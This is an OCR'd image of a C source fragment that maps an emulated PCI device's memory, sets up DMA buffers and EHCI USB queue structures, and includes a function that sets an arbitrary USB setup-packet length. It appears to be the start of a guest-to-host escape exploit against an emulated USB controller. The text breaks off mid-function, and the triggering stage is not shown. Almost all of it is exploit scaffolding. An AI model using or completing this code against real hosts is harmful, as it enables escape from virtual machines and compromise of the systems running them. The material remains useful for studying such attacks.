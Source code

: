 ```c
 

uint64_t mmio_read(uint32_t addr)
{
    return *((uint64_t*)(mmio_mem + addr));
}

void init(){
int mmio_fd = open("/sys/devices/pci0000:00/0000:00:05.7/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

dmabuf = mmap(0, 0x3000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (dmabuf == MAP_FAILED)
        die("mmap");
    mlock(dmabuf, 0x3000);
hcca=dmabuf;
dmabuf32=dmabuf+4;
qtd=dmabuf+0x200;
qh=dmabuf+0x100;
setup_buf=dmabuf+0x300;
}

void init_state(){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);
qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
struct EHCIqtd * qtd;
qtd=dmabuf+0x200;
qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
setup_buf[6]=0xff;
setup_buf[7]=0x0;
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void set_length(uint16_t len,uint8_t in){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);
setup_buf[0]=in;
setup_buf[6]=len&0xff;
setup_buf[7]=(len>>8)&0xff;
qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);

qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
```